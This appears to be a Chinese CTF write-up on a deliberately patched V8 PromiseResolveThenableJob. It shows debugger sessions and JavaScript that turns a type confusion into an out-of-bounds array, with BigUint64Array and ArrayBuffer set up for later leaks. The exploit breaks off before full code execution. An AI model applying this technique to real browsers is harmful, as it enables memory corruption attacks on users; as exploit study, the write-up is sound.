




## 题目分析

首先查看diff：

```cpp
diff --git a/src/builtins/promise-jobs.tq b/src/builtins/promise-jobs.tq
index 80e98f373b..ad5eb093e8 100644
--- a/src/builtins/promise-jobs.tq
+++ b/src/builtins/promise-jobs.tq
@@ -23,10 +23,8 @@ PromiseResolveThenableJob(implicit context: Context)(
   // debugger is active, to make sure we expose spec compliant behavior.
   const nativeContext = LoadNativeContext(context);
   const promiseThen = *NativeContextSlot(ContextSlot::PROMISE_THEN_INDEX);
-  const thenableMap = thenable.map;
-  if (TaggedEqual(then, promiseThen) && IsJSPromiseMap(thenableMap) &&
-      !IsPromiseHookEnabledOrDebugIsActiveOrHasAsyncEventDelegate() &&
-      IsPromiseSpeciesLookupChainIntact(nativeContext, thenableMap)) {
+  if (TaggedEqual(then, promiseThen) &&
+      !IsPromiseHookEnabledOrDebugIsActiveOrHasAsyncEventDelegate()) {
     // We know that the {thenable} is a JSPromise, which doesn't require
     // any special treatment and that {then} corresponds to the initial
     // Promise.prototype.then method. So instead of allocating a temporary
```

修改了PromiseResolveThenableJob函数，把一些check给删掉了，但是对于这个也不是很熟悉，所以还是先找个办法下断点调试一下

为了调试方便我选择了8.7.242版本的d8，这个版本可以直接下`Builtins_PromiseResolveThenableJob`的断点，非常方便

### 初次尝试

测试代码：

```javascript
var p1 = Promise.resolve({
    then: function(onFulfill, onReject) { onFulfill("fulfilled!"); }
  });

  p1.then(function(v) {
    console.log(v); 
  });
```

该函数的完整签名是：

```cpp
transitioning builtin
PromiseResolveThenableJob(implicit context: Context)(
    promiseToResolve: JSPromise, thenable: JSReceiver, then: JSAny): JSAny {
 // .....
}
```

断点断下后，thenable就是我们的变量p1，then就是p1.then也就是那个函数，初次尝试，`TaggedEqual(then, promiseThen)`的check没过，既然patch打到了这个判断上，那我们就要想办法进入这个if的分支

`TaggedEqual(then, promiseThen)`没过的原因是：



上面执行到TaggedEqual(then, promiseThen)，而这时候它们比较的内容：



我们测试代码里自定义的then（0x317208148ba9）过不去check

于是乎换了下写法：

```javascript
var p1 = Promise.resolve({
    then: Promise.prototype.then
  });
```

打了patch的版本直接DCHECK报错：

```cpp
abort: CSA_ASSERT failed: Torque assert 'Is<A>(o)' failed [src/builtins/cast.tq:657] [../../src/builtins/promise-jobs.tq:56]
```

从报错显示的源码位置来看，我们的确进入打了patch的if分支，很好的第一步，后面发现把p1.then那一步删了也会触发报错，报错的应该是if分支里：

```cpp
    return PerformPromiseThen(
        UnsafeCast<JSPromise>(thenable), UndefinedConstant(),
        UndefinedConstant(), promiseToResolve);
```

的`UnsafeCast<JSPromise>(thenable)`的检查没过，但是这个check好像只有debug版本才有，release版本里没有，所以直接选择注释掉：

```cpp
// src/builtins/cast,tq
macro UnsafeCast<A : type extends Object>(implicit context: Context)(o: Object):
    A {
  // assert(Is<A>(o));
  return %RawDownCast<A>(o);
}
```

到这里就能看出这里应该是可以类型混淆的，就是我们自定义的对象和`JSPromise`的混淆

注释过后又出现了一个报错：

```cpp
# Fatal error in ../../src/runtime/runtime-promise.cc, line 67
# Check failed: args[0].IsJSPromise().
```

这个报错在release版本中也有，但是在题目给的chrome浏览器中是没有这个报错的，就是正常的抛异常，有点迷惑

### 代码分析

经过蛋疼的调试之后，这个报错：

```cpp
# Fatal error in ../../src/runtime/runtime-promise.cc, line 67
# Check failed: args[0].IsJSPromise().
```

是因为我们进入了：

```cpp
// src/builtins/promise-abstract-operations.tq
@export
transitioning macro PerformPromiseThenImpl(implicit context: Context)(
    promise: JSPromise, onFulfilled: Callable|Undefined,
    onRejected: Callable|Undefined,
    resultPromiseOrCapability: JSPromise|PromiseCapability|Undefined): void {
  if (promise.Status() == PromiseState::kPending) {
    // ........  //
  } else {
    const reactionsOrResult = promise.reactions_or_result;
    let microtask: PromiseReactionJobTask;
    let handlerContext: Context;
    if (promise.Status() == PromiseState::kFulfilled) {
      handlerContext = ExtractHandlerContext(onFulfilled, onRejected);
      microtask = NewPromiseFulfillReactionJobTask(
          handlerContext, reactionsOrResult, onFulfilled,
          resultPromiseOrCapability);
    } else
      deferred {
        assert(promise.Status() == PromiseState::kRejected);
        handlerContext = ExtractHandlerContext(onRejected, onFulfilled);
        microtask = NewPromiseRejectReactionJobTask(
            handlerContext, reactionsOrResult, onRejected,
            resultPromiseOrCapability);
        if (!promise.HasHandler()) {
          runtime::PromiseRevokeReject(promise);  // <----- [1]
        }
      }
    EnqueueMicrotask(handlerContext, microtask);
  }
  promise.SetHasHandler();
}
```

[1]出的位置，也就是调用了runtime的PromiseRevokeReject，具体原因应该是`promise.Status() == PromiseState::kPending` ，我们构造的对象不符合这个条件，所以进入了下面的内容导致报错。

经过调试和查看源码（中间绕了好久，傻逼了），下个断点到Builtins_PerformPromiseThen：



查看这时候的rax，rbx，rcx和rdx：

```cpp
wndbg> job $rax
0x33d908108b31: [JS_OBJECT_TYPE]
 - map: 0x33d9082c745d <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x33d908283c69 <Object map = 0x33d9082c21b5>
 - elements: 0x33d908042229 <FixedArray[0]> [HOLEY_ELEMENTS]
 - properties: 0x33d908042229 <FixedArray[0]> {
    0x33d908044ce9: [String] in ReadOnlySpace: #then: 0x33d9082893c9 <JSFunction then (sfi = 0x33d90820d801)> (const data field 0)
 }
pwndbg> job $rbx
0x33d9080423b1: [Oddball] in ReadOnlySpace: #undefined
pwndbg> job $rcx
0x33d9080423b1: [Oddball] in ReadOnlySpace: #undefined
pwndbg> job $rdx
0x33d908108b5d: [JSPromise]
 - map: 0x33d9082c2f9d <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x33d90828937d <Object map = 0x33d9082c2fc5>
 - elements: 0x33d908042229 <FixedArray[0]> [HOLEY_ELEMENTS]
 - status: pending
 - reactions: 0
 - has_handler: 0
 - handled_hint: 0
 - properties: 0x33d908042229 <FixedArray[0]> {}
```

和PerformPromiseThen传进来的参数一致：

```cpp
transitioning builtin
PerformPromiseThen(implicit context: Context)(
    promise: JSPromise, onFulfilled: Callable|Undefined,
    onRejected: Callable|Undefined, resultPromise: JSPromise|Undefined): JSAny {
  PerformPromiseThenImpl(promise, onFulfilled, onRejected, resultPromise);
  return resultPromise;
}
```

所以我们的自定义对象被当成了一个JSPromise对象，的确是类型混淆了，再回到：

```cpp
@export
transitioning macro PerformPromiseThenImpl(implicit context: Context)(
    promise: JSPromise, onFulfilled: Callable|Undefined,
    onRejected: Callable|Undefined,
    resultPromiseOrCapability: JSPromise|PromiseCapability|Undefined): void {
  if (promise.Status() == PromiseState::kPending) {
    // The {promise} is still in "Pending" state, so we just record a new
    // PromiseReaction holding both the onFulfilled and onRejected callbacks.
    // Once the {promise} is resolved we decide on the concrete handler to
    // push onto the microtask queue.
    const handlerContext = ExtractHandlerContext(onFulfilled, onRejected);
    const promiseReactions =
        UnsafeCast<(Zero | PromiseReaction)>(promise.reactions_or_result);
    const reaction = NewPromiseReaction(
        handlerContext, promiseReactions, resultPromiseOrCapability,
        onFulfilled, onRejected);
    promise.reactions_or_result = reaction;   // <------ [2]
  } else {
   // ..................  //
  }
  promise.SetHasHandler();
}
```

如果我们能满足`promise.Status() == PromiseState::kPending`，那我们就能进入[2]处，这里会将reaction写入`promise.reactions_or_result`，也就是我们伪造对象的某个偏移

#### 寻找偏移

在src/builtins/promise-misc.tq文件下的PromiseInit函数：

```cpp
@export
macro PromiseInit(promise: JSPromise): void {
  promise.reactions_or_result = kZero;
  promise.flags = SmiTag(JSPromiseFlags{
    status: PromiseState::kPending,
    has_handler: false,
    handled_hint: false,
    async_task_id: 0
  });
  promise_internal::ZeroOutEmbedderOffsets(promise);
}
```

在src/include/v8.h下的枚举定义：

```cpp
enum PromiseState { kPending, kFulfilled, kRejected };
```

结合测试代码：

```javascript
var a = Promise.resolve(4);
%DebugPrint(a);
%SystemBreak();
```

输出：

```cpp
DebugPrint: 0x166b08108b21: [JSPromise]
 - map: 0x166b082c2f9d <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x166b0828937d <Object map = 0x166b082c2fc5>
 - elements: 0x166b08042229 <FixedArray[0]> [HOLEY_ELEMENTS]
 - status: fulfilled
 - result: 4
 - has_handler: 0
 - handled_hint: 0
 - properties: 0x166b08042229 <FixedArray[0]> {}
0x166b082c2f9d: [Map]
 - type: JS_PROMISE_TYPE
 - instance size: 20
// ..... //
pwndbg> dd 0x166b08108b20
0000166b08108b20     082c2f9d 08042229 08042229 00000008	<----- reactions_or_result
0000166b08108b30     00000002 beadbeef beadbeef beadbeef
```

可以得出reactions_or_result的偏移就是0xc，而这个status的偏移是0x10

我们前面构造的函数还差了个属性，这次给他补上：

```java
var a = {
    then : Promise.prototype.then,
    status : 0
};

var p1 = Promise.resolve(a);

setTimeout(()=>{
    console.log(a.then);
},100)
```

其实叫不叫status都无所谓应该，反正第二个属性会在0x10的偏移处，setTimeout是为了能让里面的handler在`Promise.resolve`之后执行

这个在debug版本下直接报错了，因为a.then被改成了promiseReactions：



此时的rcx和eax：

```cpp
pwndbg> job $rcx
0x156908108b7d: [JS_OBJECT_TYPE]
 - map: 0x1569082c745d <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x156908283c69 <Object map = 0x1569082c21b5>
 - elements: 0x156908042229 <FixedArray[0]> [HOLEY_ELEMENTS]
 - properties: 0x156908042229 <FixedArray[0]> {
    0x156908044ce9: [String] in ReadOnlySpace: #then: 0x1569082893c9 <JSFunction then (sfi = 0x15690820d801)> (const data field 0)
    0x1569080a3151: [String] in ReadOnlySpace: #status: 0 (const data field 1)
 }
pwndbg> dd $rax-1
0000156908108bfc     08045709 082893c9 080423b1 080423b1
0000156908108c0c     08108bd5 080423b1 beadbeef beadbeef
0000156908108c1c     beadbeef beadbeef beadbeef beadbeef
0000156908108c2c     beadbeef beadbeef beadbeef beadbeef
pwndbg> job 0x08045709
0x156908045709: [Map] in ReadOnlySpace
 - type: PROMISE_REACTION_TYPE
 - instance size: 24
 - elements kind: HOLEY_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - stable_map
 - non-extensible
 - back pointer: 0x1569080423b1 <undefined>
 - prototype_validity cell: 0
 - instance descriptors (own) #0: 0x1569080421bd <DescriptorArray[0]>
 - prototype: 0x156908042231 <null>
 - constructor: 0x156908042231 <null>
 - dependent code: 0x1569080421b5 <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
 - construction counter: 0
pwndbg> 
```

rcx就是我们自定义的对象，写入的也是我们猜测的0xc偏移的位置

### exploit

该类型混淆会导致在一个对象0xc的偏移写入一个promiseReactions（这是一个很大的值），这个0xc的偏移很容易就想到数组的length，试一试看看：

```javascript
class myArray extends Array{
    constructor(size){
        super(size);
        this.status = 0;
        this.then = Promise.prototype.then;
        
    }
}

var oob_arr = new myArray(0x10);

Promise.resolve(oob_arr);

setTimeout(()=>{
    %DebugPrint(oob_arr);
    %SystemBreak();
    console.log(oob_arr[0x11])
},100);
```

输出：

```cpp
0x38a508088c4d <JSArray[0]>
1
// ......................  //
pwndbg> dd 0x38a508088c4c
000038a508088c4c     08247209 0804222d 08088c85 08088dd9	<--- 长度已经被改变了
000038a508088c5c     00000008 082096f1 080422c5 080422c5
000038a508088c6c     080422c5 080422c5 080422c5 080422c5
000038a508088c7c     080422c5 080422c5 08042205 00000020
pwndbg> dd 0x38a508088c84 30
000038a508088c84     08042205 00000020 0804242d 0804242d
000038a508088c94     0804242d 0804242d 0804242d 0804242d
000038a508088ca4     0804242d 0804242d 0804242d 0804242d
000038a508088cb4     0804242d 0804242d 0804242d 0804242d
000038a508088cc4     0804242d 0804242d 08042205 00000002	<--- 0x11偏移
```

那既然有了越界数组，在oob_arr后面布置一个BigUint64Array和ArrayBuffer就ok了：

```javascript
class myArray extends Array{
    constructor(size){
        super(size);
        this.status = 0;
        this.then = Promise.prototype.then;
        
    }
};

class LeakArrayBuffer extends ArrayBuffer {
    constructor(size){
        super(size);
        this.slot = 0xb33f;
    }
};

function gc(){
    for(var i = 0;i < 0x10;i++){
        var a = new ArrayBuffer(0x1000000);
    }
}

var oob_arr = new myArray(0x10);
oob_arr.fill(1.1);
var uint64array = new BigUint64Array(2);        // for leak external_pointer 
var padding = {};  
var target_buffer = new LeakArrayBuffer(0x3000);

Promise.resolve(oob_arr);

setTimeout(()=>{
    // do exploit
},100);
```


但是，d8下是没问题了，到了题目的chrome浏览器却出现了毛病，它抛异常了：

```cpp
Uncaught (in promise) TypeError: Method Promise.prototype.then called on incompatible receiver [object Array]
    at myArray.then (<anonymous>)
```

我去找了下别人的exp，也会抛异常，。。。。。这是为什么啊 orz，无法理解


